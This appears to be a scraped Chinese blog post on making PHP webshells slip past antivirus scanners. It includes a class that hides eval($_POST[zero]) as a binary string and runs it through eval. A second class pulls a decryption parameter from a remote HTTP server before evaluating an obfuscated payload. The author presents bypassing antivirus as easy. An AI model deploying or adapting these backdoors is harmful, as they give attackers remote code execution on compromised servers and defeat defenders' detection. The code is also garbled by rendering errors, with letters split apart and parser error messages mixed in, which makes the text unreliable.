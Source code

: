 ?>

## 二进制转化payload

-   <?php

class KUYE{  
public $DAXW = null;  
public $LRXV = null;  
function \_\_construct(){  
$this->DAXW = ‘1100101 1110110 1100001 1101100 101000 100100 1011111 1010000 1001111 1010011 1010100 1011011 1111010 1100101 1110010 1101111 1011101 101001 111011’;  
t h i s − > L R X V = @ B i n T o S t r ( this->LRXV = @BinToStr( this−\>LRXV\=@BinToStr(this->DAXW);  
@eval(“/_GnSpe=u_/”.KaTeX parse error: Expected 'EOF', got '}' at position 36: …u\*/"); }̲} new KUYE(); f…str){  
$arr = explode(’ ', s t r ) ; f o r e a c h ( str); foreach( str);foreach(arr as &$v){  
v = p a c k ( " H " . s t r l e n ( b a s e c o n v e r t ( v = pack("H".strlen(base\_convert( v\=pack("H".strlen(baseconvert(v, 2, 16)), base\_convert($v, 2, 16));  
}

```
return join('', $arr);
```

}  
?>  
![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3a538a2248437cad0981101102797f.png)

这里就不列举了 只要方法正确 绕过杀软是很简单的

## 0x02：通过http获得关键参数

上面那个凯撒密码不是被webdir+杀了吗 我们在这里将他绕过

众所周知凯撒密码需要设置往前或往后移几位ascii 这个参数可以设置为解密方法的输入参数 经过测试 此参数在源码中会被沙盒跑出了 因此不能过百度杀毒 ，那么 我不写本地不就行了 我直接起一个http服务访问文本获得参数值。

-   <?php

class FKPC{  
function \_\_construct(){  
$url = “http://xxxxx:8080/1.txt”;  
f p = f o p e n ( fp = fopen( fp\=fopen(url, ‘r’);  
stream\_get\_meta\_data( f p ) ; w h i l e ( ! f e o f ( fp); while (!feof( fp);while(!feof(fp)) {  
b o d y . = f g e t s ( body.= fgets( body.\=fgets(fp, 1024);  
}  
$this->x = $body;  
$this->TQYV = “bs^i%!\\MLPQXwbolZ&8”;  
t h i s − > W Z D M = @ H H G J ( this->WZDM = @HHGJ( this−\>WZDM\=@HHGJ(this->TQYV,KaTeX parse error: Expected 'EOF', got '#' at position 28: … @eval("/\*#̲jkskjwjqo\*/".this->WZDM.“/_sj#ahajsj_/”);  
}}  
new FKPC();
